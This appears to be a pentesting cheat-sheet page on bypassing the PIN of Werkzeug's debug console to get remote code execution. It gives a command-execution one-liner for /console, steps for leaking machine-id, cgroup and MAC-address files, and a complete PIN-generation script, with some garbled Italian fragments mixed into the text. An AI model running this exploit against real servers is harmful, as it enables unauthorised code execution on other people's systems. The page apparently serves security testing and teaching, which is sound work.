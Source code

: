 
## Werkzeug PIN Bypass Exploit
**https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug#pin-protected**



If debug is active you could try to access to `/console` and gain RCE.

```python
__import__('os').popen('whoami').read();
```

In some occasions the /console endpoint is going to be protected by a pin. Here you can find how to generate this pin:
-   ​[https://www.daehee.com/werkzeug-console-pin-exploit/](https://www.daehee.com/werkzeug-console-pin-exploit/)​
-   ​[https://ctftime.org/writeup/17955](https://ctftime.org/writeup/17955)


A soldoni:
-   `username` is the user who started this Flask
-   `modname` is flask.app
-   `getattr(app, '__name__', getattr (app .__ class__, '__name__'))` is Flask
-   `getattr(mod, '__file__', None)` is the absolute path of `app.py` in the flask directory (e.g. `/usr/local/lib/python3.5/dist-packages/flask/app.py`). If `app.py` doesn't work, try `app.pyc`
-   `uuid.getnode()` is the MAC address of the current computer, `str (uuid.getnode ())` is the decimal expression of the mac address
-   `get_machine_id()` read the value in `/etc/machine-id` or `/proc/sys/kernel/random/boot_id` and return directly if there is, sometimes it might be required to append a piece of information within `/proc/self/cgroup` that you find at the end of the first line (after the third slash)


To find server MAC address, need to know which network interface is being used to serve the app (e.g. `ens3`). If unknown, leak `/proc/net/arp` for device ID and then leak MAC address at `/sys/class/net/<device id>/address`.

Convert from hex address to decimal representation by running in python e.g.:

```python
>>> print(0x5600027a23ac)
94558041547692
```

Pluggare tutti i valori in:

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)****
```



